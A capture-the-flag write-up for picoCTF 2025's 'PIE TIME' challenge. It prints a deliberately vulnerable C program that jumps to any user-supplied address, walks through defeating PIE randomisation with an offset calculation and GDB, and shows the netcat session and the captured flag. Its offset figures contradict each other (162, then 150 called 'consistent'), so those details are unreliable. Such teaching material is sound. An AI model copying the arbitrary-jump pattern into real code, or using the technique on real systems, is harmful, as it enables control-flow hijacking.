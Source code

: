 # PIE TIME — picoCTF 2025 Write-up

## Overview
This write-up explains the steps taken to solve the "PIE TIME" challenge from picoCTF 2025, a Capture The Flag (CTF) competition hosted by Carnegie Mellon University. The goal of this challenge is to exploit a vulnerable C program that involves a Position Independent Executable (PIE) and gain access to the flag by providing the correct memory address.

## Challenge Setup
In this challenge, you are provided with the following:
- A vulnerable C program (`vuln.c`).
- A compiled binary file (`vuln`).
- A server to connect to via netcat (`rescued-float.picoctf.net`).

The binary prompts you to enter a memory address, and if it matches a particular address, the program reveals the flag.

### Steps to Solve:

### 1. Download Files and Run the Binary
First, download the provided source and binary files:
```bash
wget <link_to_source_code>
wget <link_to_binary_code>
chmod +x vuln
./vuln
```
This will output the address of `main` and prompt you to enter an address to jump to. Entering an incorrect address causes a segmentation fault (segfault).

### 2. Inspect the Source Code
The vulnerable C code (`vuln.c`) looks like this:
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;
  printf("You won!\n");
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL) {
    printf("Cannot open file.\n");
    exit(0);
  }

  c = fgetc(fptr);
  while (c != EOF) {
    printf ("%c", c);
    c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0);

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
The key part of the code is the line:
```c
printf("Address of main: %p\n", &main);
```
It prints the address of `main()`, and the user is prompted to enter the memory address of a function (specifically, the `win()` function). If the correct address is entered, the program opens a file containing the flag.

### 3. Understand the PIE Behavior
The challenge mentions "Beware of PIE" — this refers to Position Independent Executables, which randomize the location of functions in memory for security purposes. This means the address of `main()` and `win()` will change every time the program is run, but the relative offset between them will remain constant.

### 4. Find the Offset Between `main()` and `win()`
I modified the program to print the address of `win()`:
```c
printf("Address of win: %p\n", &win);
```
Compiling and running the program locally, I found the addresses of `main()` and `win()` and calculated the difference:
```bash
Address of main: 0x555fe3f1634c
Address of win: 0x555fe3f162aa
```
I then calculated the difference between the two addresses:
```python
main = int('555fe3f1634c', 16)
win = int('555fe3f162aa', 16)
print(main - win)  # Output: 162
```
This gave an offset of 162, which I used to calculate the address of `win()` remotely.

### 5. Analyze the Binary with GDB
To explore the program's behavior on the server, I used GDB to inspect the binary:
```bash
gdb ./vuln
```
I ran the program inside GDB, and then disassembled `main()` and `win()` to get their addresses. The result was:
```bash
(gdb) disas main
...
(gdb) disas win
```
The addresses for `main()` and `win()` were printed, and the difference was consistent with my local calculation (150).

### 6. Calculate the Correct Address
Using the offset (150), I created a Python script to calculate the address of `win()` from `main()`:
```python
main = input("Enter hex: ")
main = int(main, 16) - 150
main = hex(main)
print(main)
```
I connected to the server via netcat:
```bash
nc rescued-float.picoctf.net 63035
```
When prompted for the address, I input the calculated address for `win()`:
```bash
Enter the address to jump to, ex => 0x12345: 0x60928089b2a7
```

### 7. Retrieve the Flag
After entering the correct address, the program displayed the flag:
```bash
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_80c3b8b7}
```

## Conclusion
This challenge demonstrated how to exploit a PIE-enabled binary by calculating the offset between functions and using it to jump to the correct function. By using GDB and Python, I was able to overcome the randomness introduced by PIE and successfully retrieve the flag.

### Tools Used
- **GDB**: For disassembling and inspecting the binary.
- **Python**: For calculating memory addresses and offsets.
- **Netcat**: For connecting to the remote server.

## Flag
```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_80c3b8b7}
```